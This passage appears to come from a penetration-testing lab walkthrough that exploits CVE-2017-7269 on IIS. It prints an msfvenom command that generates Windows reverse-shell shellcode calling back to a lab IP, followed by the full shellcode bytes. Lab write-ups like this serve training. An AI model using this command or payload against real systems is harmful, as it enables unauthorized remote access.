 I'll use `searchsploit -x windows/remote/41738.py` to examine the
exploit code. It creates a payload that is modeled after an HTTP
request, and includes shellcode to launch `calc.exe`.

Some Googling shows this is
[CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269),
which has many public exploit scripts available.

### Update Shellcode - Fail

A very common thing in OSCP is finding an exploit script like this, and
needing to modify it to put in your own shellcode to get a shell. I'll
use `msfvenom` to create the shellcode:



    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f python -v shellcode
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of python file: 1823 bytes
    shellcode =  b""
    shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
    shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
    shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
    shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
    shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
    shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
    shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
    shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
    shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
    shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
    shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
    shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
    shellcode += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
    shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
    shellcode += b"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
    shellcode += b"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40"
    shellcode += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
    shellcode += b"\x6a\x05\x68\x0a\x0a\x0e\x2f\x68\x02\x00\x01"
    shellcode += b"\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74"
    shellcode += b"\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75"
    shellcode += b"\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d"
    shellcode += b"\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12"
    shellcode += b"\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    shellcode += b"\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
    shellcode += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc"
    shellcode += b"\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
    shellcode += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2"
    shellcode += b"\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
    shellcode += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f"
    shellcode += b"\x6a\x00\x53\xff\xd5"
